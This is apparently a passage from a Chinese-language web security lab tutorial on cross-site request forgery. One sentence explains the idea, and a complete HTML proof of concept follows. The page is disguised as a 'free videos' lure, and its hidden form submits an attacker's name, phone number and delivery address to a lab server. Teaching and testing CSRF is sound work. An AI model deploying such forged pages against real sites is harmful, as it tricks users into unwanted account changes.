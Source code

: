 ![image-20250223000842034](static/image/image-20250223000842034.png)

```
我们可以通过伪造一个页面，让用户点击，实现添加我们的收货地址的目的。
```

```html
<title>免费看片 - 点击观看</title>
<form action="http://192.168.1.13:8009/csrf/found" method="post">
<input type="hidden" name="name" value="hacker"/>
<input type="hidden" name="tel" value="1008611"/>
<input type="hidden" name="position" value="太平洋"/>
<input type="hidden" name="reamrk" value="送快些"/>
<input type="submit" name="sub" value="点击进入 - 免费看片"  />
</form>
```

![image-20250223001632121](static/image/image-20250223001632121.png)